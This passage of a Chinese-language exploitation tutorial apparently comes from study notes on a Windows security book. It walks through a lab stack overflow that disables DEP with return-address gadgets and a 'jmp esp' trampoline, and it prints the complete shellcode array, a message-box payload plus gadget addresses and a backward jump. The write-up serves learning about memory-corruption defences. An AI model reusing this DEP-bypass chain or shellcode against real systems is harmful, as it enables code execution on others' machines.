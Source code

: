 ![Bildschirmfoto 2018-09-28 um 4.23.47 PM.png]({{ site.url }}/images/0day/DE00ED01A505AFF9317CADE849AF4586.png)

可以发现我们布置的4个nop刚好是函数将要返回的地址所在处，且没有被覆盖掉。我们考虑把这里替换为一条`jmp esp`跳板，然后在关闭DEP的4个字节后面紧跟着一个长跳指令（再次提醒，关闭DEP部分的返回是`retn 4`，所以在`jmp esp`后ESP会多加4，从而越过关闭DEP指针，直接跳到后面的长跳指令上）。

跳板有一大堆：

![Bildschirmfoto 2018-09-28 um 4.26.18 PM.png]({{ site.url }}/images/0day/FBF28DF90AF87F56B46FA163EA3977E0.png)

> 可以计算出shellcode起始位置距长跳指令起始位置有200字节，而长跳指令长5个字节，所以长跳指令要往前跳205个字节。

最终shellcode：

```c
char shellcode[]=
// 168	messagebox
"\xfc\x68\x6a\x0a\x38\x1e\x68\x63\x89\xd1\x4f\x68\x32\x74\x91\x0c"
"\x8b\xf4\x8d\x7e\xf4\x33\xdb\xb7\x04\x2b\xe3\x66\xbb\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xd2\x64\x8b\x5a\x30\x8b\x4b\x0c\x8b"
"\x49\x1c\x8b\x09\x8b\x69\x08\xad\x3d\x6a\x0a\x38\x1e\x75\x05\x95"
"\xff\x57\xf8\x95\x60\x8b\x45\x3c\x8b\x4c\x05\x78\x03\xcd\x8b\x59"
"\x20\x03\xdd\x33\xff\x47\x8b\x34\xbb\x03\xf5\x99\x0f\xbe\x06\x3a"
"\xc4\x74\x08\xc1\xca\x07\x03\xd0\x46\xeb\xf1\x3b\x54\x24\x1c\x75"
"\xe4\x8b\x59\x24\x03\xdd\x66\x8b\x3c\x7b\x8b\x59\x1c\x03\xdd\x03"
"\x2c\xbb\x95\x5f\xab\x57\x61\x3d\x6a\x0a\x38\x1e\x75\xa9\x33\xdb"
"\x53\x68\x2d\x6a\x6f\x62\x68\x67\x6f\x6f\x64\x8b\xc4\x53\x50\x50"
"\x53\xff\x57\xfc\x53\xff\x57\xf8"
// 12	nop
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
// 4	mov eax, 1, ret
"\x52\xE2\x92\x7C"
// 4	modify ebp
"\x85\x8b\x1d\x5d"
// 4	add esp
"\x19\x4a\x97\x7c"
//"\x90\x90\x90\x90"
// 4	jmp esp
"\xb4\xc1\xc5\x7d"
// 4	turn off DEP
"\x24\xCD\x93\x7C"
// 5 long jmp
"\xe9\x33\xff\xff\xff"
// 3 nop
"\x90\x90\x90"
;
```

下图是整个漏洞利用过程的说明：

![Bildschirmfoto 2018-10-01 um 10.40.39 AM.png]({{ site.url }}/images/0day/9D2D46DE4EEBEFBD593CE829F133A02D.png)

上方的`ebp`代表在`set ebp`后ebp寄存器指向的位置。正因如此，后面关闭DEP后有一个`leave`指令（左下方最下面的截图），这个指令才能够通过`mov esp, ebp; pop ebp`来将`esp`恢复到我们的`jmp ESP`跳板处。
